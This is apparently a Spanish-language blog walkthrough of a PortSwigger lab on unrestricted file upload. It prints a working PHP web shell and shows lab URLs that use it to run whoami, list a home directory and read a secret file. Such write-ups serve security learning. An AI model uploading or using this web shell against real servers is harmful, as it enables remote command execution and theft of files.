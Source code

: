 ```yaml
---
title: Remote code execution via web shell upload
description: Laboratorio de Portswigger sobre File Upload
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload
tags:
  - Portswigger Labs
  - File Upload
  - Remote code execution via web shell upload
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que no realiza `ninguna validación` en los `archivos` que los usuarios suben antes de almacenarlos en el `sistema` de `archivos` del `servidor`. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego `enviar` este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-1/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-1/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-1/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-1/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo subimos

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Lab-1/image_5.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Lab-1/image_6.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un archivo llamado `secret`

![](/assets/img/File-Upload-Lab-1/image_7.png)

`Leemos` la `información` de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-1/image_8.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Lab-1/image_9.png)
